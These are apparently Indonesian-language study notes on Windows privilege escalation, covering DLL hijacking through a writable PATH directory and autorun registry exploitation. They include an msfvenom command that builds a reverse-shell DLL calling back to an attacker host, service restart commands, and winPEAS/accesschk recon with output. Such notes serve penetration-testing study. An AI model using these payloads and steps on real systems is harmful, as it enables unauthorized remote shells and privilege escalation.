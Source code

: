 Normalnya kita harus melakukan process monitoring terhadap file `dllhijackservice.exe`

![[procmon.png]]

Terlihat pada gambar diatas, windows tidak menemukan `hijackme.dll` dan mencarinya di semua PATH. Perhatikan bahwa direktor `C:\Temp` berada pada path. Disini kita bisa menambahkan file `hijackme.dll` sehingga menjadi `C:\Temp\hijackme.dll`

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4545 -f dll -o hijackme.dll
```

Transfer ke windows lalu restart service

```
net stop dllsvc
net start dllsvc
```

## Registry Exploits
WIndows bisa menjalankan perintah-perintah yang secara otomatis dijalankan ketika startup. Proses ini dinamakan autorun yang dikonfigurasi pada registry.

Terdapat celah keamanan bilamana kita memilki hak akses untuk membuat file executable autorun dan ability untuk restart sistem. As soon as windows restarted, kita bisa langsung dapat reverse shell. 

### Recon
```
winPEASany.exe quiet applicationsinfo
```

Result :
```
[+] Autorun Applications(T1010)

Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

```

Selanjutnya cek autorun yang saat ini berada pada windows
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Lalu cek hak akses
```
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

Pastikan kita punya akses RW
```
RW Everyone
	FILE_ALL_ACCESS

```
